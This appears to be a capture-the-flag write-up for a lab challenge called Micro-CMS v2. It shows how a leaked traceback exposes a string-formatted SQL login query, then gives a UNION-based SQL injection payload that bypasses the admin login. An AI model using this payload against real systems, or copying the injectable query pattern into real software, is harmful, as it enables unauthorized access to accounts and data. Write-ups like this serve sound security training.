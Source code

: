 # Micro-CMS v2 - FLAG0

## 0x00 Index

![](./imgs/index.jpg)

## 0x01 Log In

Try create a new page. Redirect to log in page.

Try with weak password. Not working.

![](./imgs/login.jpg)

## 0x02 Try Add '

Get SQL error page

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

## 0x03 Bypass Login

USERNAME = 

```sql
' UNION SELECT '123' AS password#
```

and PASSWORD = 123

```sql
SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password#
```

![](./imgs/success.jpg)

## 0x04 Private Page (FLAG)

![](./imgs/private.jpg)

![](./imgs/flag.jpg)